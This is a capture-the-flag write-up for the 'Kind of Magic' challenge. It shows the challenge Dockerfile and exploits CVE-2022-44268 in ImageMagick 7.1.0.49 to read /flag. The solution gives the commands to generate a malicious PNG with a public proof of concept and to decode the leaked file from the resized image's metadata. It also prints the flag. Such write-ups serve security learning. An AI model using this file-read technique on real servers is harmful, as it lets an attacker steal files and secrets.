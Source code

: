 # 🪄 Kind of Magic (Score: 140 / Solves: 36)

## Description

> Why generate thumbnails locally, when there's a web service to do it remotely?
>
> <https://kind-of-magic-658deb1116d1.1753ctf.com/>
>
> <https://dl.1753ctf.com/kind-of-magic/?s=2ZPdSFSk>

## Source Code

<details><summary>file tree</summary>

```console
$ unzip -d kind-of-magic -q kind-of-magic_.zip; cd kind-of-magic
$ tree .
.
├── Dockerfile
├── run
└── src
    ├── Cargo.lock
    ├── Cargo.toml
    ├── Rocket.toml
    ├── src
    │   ├── image_from_request_body.rs
    │   └── main.rs
    └── static
        ├── index.html
        ├── main.css
        └── main.js

4 directories, 10 files
```

</details>

<details><summary>Dockerfile</summary>

```dockerfile
FROM archlinux:latest

ARG FLAG

RUN mkdir /app
WORKDIR /app

EXPOSE 1337

RUN pacman --noconfirm -Syu && \
    pacman --noconfirm -S libpng libraqm liblqr libxext fontconfig lcms2 libltdl pkg-config clang rust && \
    curl https://archive.archlinux.org/packages/i/imagemagick/imagemagick-7.1.0.49-1-x86_64.pkg.tar.zst > imagemagick-7.1.0.49.tar.zst && \
    pacman --noconfirm -U imagemagick-7.1.0.49.tar.zst && \
    rm imagemagick-7.1.0.49.tar.zst

RUN echo $FLAG > /flag
ADD src src

RUN cd src && cargo build -r && cp target/release/image_resizer .. && cargo clean

RUN cp src/Rocket.toml . && ln -s src/static .

CMD ["/app/image_resizer"]
```

</details>

## Flag

1753c{there_is_magic_in_the_air_its_called_CVE_2022_44268}

## Summary

- Information Leak by CVE-2022-44268

## Initial Analysis

The application is vulnerable to [CVE-2022-44268](https://www.cve.org/CVERecord?id=CVE-2022-44268) due to the installation of ImageMagick 7.1.0.49.

- PoC: [Sybil-Scan/imagemagick-lfi-poc: ImageMagick LFI PoC \[CVE-2022-44268\]](https://github.com/Sybil-Scan/imagemagick-lfi-poc?tab=readme-ov-file)

Since the flag is located at `/flag`, we can get the flag by executing a PoC to read `/flag` file.

## Solution

```console
$ git clone --quiet https://github.com/Sybil-Scan/imagemagick-lfi-poc.git; cd imagemagick-lfi-poc

$ python3 generate.py -f "/flag" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /flag
   [>] PoC PNG generated > exploit.png

$ # upload exploit.png to the challenge server and download resize.png

$ identify -verbose ~/Downloads/resized.png .
...
    png:tIME: 2024-03-17T06:04:07Z
    Raw profile type:

      59
31373533637b74686572655f69735f6d616769635f696e5f7468655f6169725f6974735f
63616c6c65645f4356455f323032325f34343236387d0a

    signature: ddc8a768f0708272396e3281283e395a7f8b044dbc66aa24de020cfb4bf67702
...

$ python3 -c 'print(bytes.fromhex("31373533637b74686572655f69735f6d616769635f696e5f7468655f6169725f6974735f63616c6c65645f4356455f323032325f34343236387d0a"))'
b'1753c{there_is_magic_in_the_air_its_called_CVE_2022_44268}\n'
```

